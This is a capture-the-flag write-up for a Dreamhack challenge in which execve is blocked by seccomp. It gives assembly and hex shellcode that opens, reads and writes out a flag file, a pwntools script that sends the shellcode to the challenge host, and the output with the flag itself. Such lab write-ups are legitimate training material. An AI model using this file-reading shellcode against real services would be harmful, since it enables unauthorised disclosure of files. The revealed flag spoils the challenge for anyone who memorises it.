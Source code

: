 ### Overview
In this challenge, we can not use function `execve` and `execveat` by this line in the source cose:
```c
void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}

```

The goal is open, read, and write the flag in `/home/shell_basic/flag_name_is_loooooong` using shellcode. 

### Exploitation
First, we need to convert the flag filename in little-edian by the following way:
```py
flag = "/home/shell_basic/flag_name_is_loooooong"
flag = flag[::-1].encode().hex()
blocks = [flag[i:i+16] for i in range(0, len(flag), 16)]
blocks = ['676e6f6f6f6f6f6f', '6c5f73695f656d61', '6e5f67616c662f63', '697361625f6c6c65', '68732f656d6f682f']

```

After that, we will create shellcode to open read and write flag file:

````asm
;push file flag onto stack
push   0x0
movabs rax, 0x676e6f6f6f6f6f6f
push   rax
movabs rax, 0x6c5f73695f656d61
push   rax
movabs rax, 0x6e5f67616c662f63
push   rax
movabs rax, 0x697361625f6c6c65
push   rax
movabs rax, 0x68732f656d6f682f
;open file
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov eax, 0x2
syscall
; read file
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov edx, 0x30
mov eax, 0x0
syscall
; write file
mov edi, 0x1
mov eax, 0x1
syscall
; close
mov eax, 0x3c
mov edi, 0x0
syscall
````

Send this shell code by pwntools in python and get flag:
```py
from pwn import *

p=remote('host3.dreamhack.games', 8609)
shellcode = b"\x6A\x00\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6E\x67\x50\x48\xB8\x61\x6D\x65\x5F\x69\x73\x5F\x6C\x50\x48\xB8\x63\x2F\x66\x6C\x61\x67\x5F\x6E\x50\x48\xB8\x65\x6C\x6C\x5F\x62\x61\x73\x69\x50\x48\xB8\x2F\x68\x6F\x6D\x65\x2F\x73\x68\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\xB8\x02\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\x89\xE6\x48\x83\xEE\x30\xBA\x30\x00\x00\x00\xB8\x00\x00\x00\x00\x0F\x05\xBF\x01\x00\x00\x00\xB8\x01\x00\x00\x00\x0F\x05\xB8\x3C\x00\x00\x00\xBF\x00\x00\x00\x00\x0F\x05"
p.recvuntil("shellcode: ")
p.sendline(shellcode)
p.interactive()
```
Result:

```
khanh@ubuntu:~/Documents/PWN-dreamhack/shellcode$ python3 shell.py 
[q] Opening connection to host3.dreamhack.games on port 8609: Trying [+] Opening connection to host3.dreamhack.games on port 8609: Done
/home/khanh/Documents/PWN-dreamhack/shellcode/shell.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("shellcode: ")
[*] Switching to interactive mode
DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$  

```